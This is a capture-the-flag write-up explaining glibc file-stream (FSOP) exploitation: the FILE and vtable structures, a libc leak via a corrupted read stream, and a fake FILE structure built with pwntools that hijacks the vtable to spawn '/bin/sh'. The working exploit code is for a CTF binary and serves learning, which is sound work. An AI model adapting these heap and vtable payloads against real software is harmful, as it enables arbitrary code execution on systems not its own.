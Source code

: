 This challenge was tough since I have not really touched on anything FSOP related outside of House of Orange, but it was for sure a great learning experience. I will say this out of the gate, I did not solve this challenge during the CTF but instead I continued to work on it for over the course of two weeks since to be honest there was a lot to learn.

To first understand how to solve this challenge, I will have to explain what file structures are. From what I understand and what I learned through debugging the heap memory, file structures are mostly here so whatever changes I do to the file that I wish to open will happen in heap memory first and once you call `fclose()` on the file pointer, then it will write to the disk. This is done because in C they legit only care about speed and nothing else, so that is good for us.

Now how FSOP works takes advantage of the `__IO_FILE_plus` struct that is used when working with file structures. The struct looks like this:

``` c
struct _IO_FILE_plus
{
  FILE file;
  const struct _IO_jump_t *vtable;
};
```

The real point of focus is the `vtable` at the end. Luckily, I already knew what a `vtable` was thanks to one of the challenges in the [pwnable.kr](pwnable.kr) website that I solved a little while back. In that challenge, from what I remember, I had to exploit a use-after-free bug in a C++ program that used objects. The way `vtables` are used in C++ is basically a lookup table for functions for each object, so for example multiple instances of a class will actually end up calling the same function addresses. And in this case the `vtable` pointer is the same way. Only problem though (and why the House of Orange only works on GLIBC 2.23 and below), the `vtable` pointer has to be within some adresses. Because of that, we cannot create our own `vtable` and instead we must play around with misaligning the vtable that we have and to try to find something that is modifyable by using [Angry FSROP](https://blog.kylebot.net/2022/10/22/angry-FSROP/). Also here is the layout of the `_IO_FILE` structure for future reference (since this will show up in the heap):

``` c
struct _IO_FILE
{
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */

  /* The following pointers correspond to the C++ streambuf protocol. */
  char *_IO_read_ptr;	/* Current read pointer */
  char *_IO_read_end;	/* End of get area. */
  char *_IO_read_base;	/* Start of putback+get area. */
  char *_IO_write_base;	/* Start of put area. */
  char *_IO_write_ptr;	/* Current put pointer. */
  char *_IO_write_end;	/* End of put area. */
  char *_IO_buf_base;	/* Start of reserve area. */
  char *_IO_buf_end;	/* End of reserve area. */

  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain;

  int _fileno;
  int _flags2;
  __off_t _old_offset; /* This used to be _offset but it's too small.  */

  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  _IO_lock_t *_lock;
  __off64_t _offset;
  /* Wide character stream stuff.  */
  struct _IO_codecvt *_codecvt;
  struct _IO_wide_data *_wide_data;
  struct _IO_FILE *_freeres_list;
  void *_freeres_buf;
  size_t __pad5;
  int _mode;
  /* Make sure we don't get into trouble again.  */
  char _unused2[15 * sizeof (int) - 4 * sizeof (void *) - sizeof (size_t)];
};
```

Now with this knowledge, we will be able to solve this challenge. Also I took these structures from [here](https://niftic.ca/posts/fsop/).

The challenge calls `fread()` and `fwrite()` on different options and has an obvious buffer overflow that will let us overwrite both file structures for the read and write. Also everything is green except for PIE, so what I did was leak LIBC by reading the address of `stdout` in the `.bss` region by changing the pointer of the read file structure. I also leaked the stack but I didn't need it:

``` python
    leak = read_addr(io, 0x404010)
    libc = int.from_bytes(leak, "little") - l.sym["_IO_2_1_stdout_"] 

    print(f"============= Libc leak: {hex(libc)}")
    
    leak = read_addr(io, l.sym["environ"] + libc)
    stack = int.from_bytes(leak, "little") 

    print(f"============= Stack leak: {hex(stack)}")
```

Next I  overwrote (is that how you say it??) the write file structure to point to libc's `_IO_2_1_stdout_`:

``` python
    # buf base and buf end overflow on the write stream 
    payload = b"A"*0x28 + p64(0x1e1) + b"B"*0x1d8 + p64(0x1e1) 
    payload += p64(0xfbad2c84)
    payload += p64(l.sym["_IO_2_1_stdout_"] + libc)
    payload += p64(0) * 5
    payload += p64(l.sym["_IO_2_1_stdout_"] + libc)
    payload += p64(l.sym["_IO_2_1_stdout_"] + libc + 0x200)
    
    write_script(io, b"balls")
    set_name(io, payload)
```

Then I created a fake file structure while changing the `vtable` pointer to what angry-fsrop said:
``` python 
# create a fake file struct to use when calling the write stream
    file = FileStructure(0)
    file.flags = 0x3b01010101010101
    file._IO_read_end = l.sym["system"] + libc
    file._IO_save_base = libc + 0x163830 # one gadget
    file._IO_write_end = u64(b"/bin/sh\x00")
    file._lock = libc + 0x21ba70
    file._codecvt = l.sym["_IO_2_1_stdout_"] + libc + 0xb8
    file._wide_data = l.sym["_IO_2_1_stdout_"] + libc + 0x200
    
    # modify the address of the vtable
    file.unknown2 = p64(0)*2 + p64(l.sym["_IO_2_1_stdout_"] + libc + 0x20) + p64(0)*3 + p64(l.sym["_IO_wfile_jumps"] + libc - 0x18) 

    #write_script(io, bytes(file))
    sla(io, b"Choice:", b"2")
    io.sendline(bytes(file))
```

And just like that, I have shell!!!! (WOOHOO, this was a pain!!!!)
